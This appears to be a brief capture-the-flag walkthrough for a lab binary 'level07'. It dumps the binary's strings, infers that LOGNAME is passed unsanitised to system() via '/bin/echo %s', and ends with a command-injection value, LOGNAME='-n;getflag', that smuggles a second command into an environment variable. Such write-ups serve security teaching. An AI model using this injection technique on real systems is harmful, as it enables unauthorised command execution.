 1. `./level07`
   ```bash
   level07
   ```

2. `xdd ./level07 | less`
   ```
   asprintf.getenv
   [...]
   LOGNAME./bin/echo %s
   ```

3. `LOGNAME=hello && ./level07`
   ```bash
   hello

   # GUESS
   # char *cmd = NULL;
   # 
   # asprintf(&cmd, "/bin/echo %s", getenv("LOGNAME"))
   # system(cmd);
   ```

4. `LOGNAME='-n;getflag' && ./level07`